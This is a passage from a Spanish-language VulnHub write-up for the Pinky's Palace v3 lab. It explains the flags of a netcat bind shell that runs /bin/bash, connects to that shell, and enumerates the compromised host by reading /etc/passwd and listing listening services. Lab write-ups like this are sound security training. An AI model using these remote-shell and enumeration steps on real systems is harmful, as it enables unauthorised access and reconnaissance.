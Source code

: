 - p 1337: puerto a usar

- e /bin/bash: ejecuta bash cuando alguien se conecta

Ahora conectamos con el bind shell.

```bash
nc 192.168.100.99 1337
```

![alt text](/assets/img/writeups/vulnhub/pinkyspalacev3/image-9.png)

Ahora podemos estabilizar la shell.

![alt text](/assets/img/writeups/vulnhub/pinkyspalacev3/image-10.png)

## Explorando el sistema

- Usuarios del sistema con shell

```bash
www-data@pinkys-palace:~/html$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
pinky:x:1000:1000:pinky,,,:/home/pinky:/bin/bash
pinksec:x:1001:1001::/home/pinksec:/bin/bash
pinksecmanagement:x:1002:1002::/home/pinksecmanagement:/bin/bash
```

- Servicios expuestos

```bash
netstat -tulnp
```

![alt text](/assets/img/writeups/vulnhub/pinkyspalacev3/image-11.png)
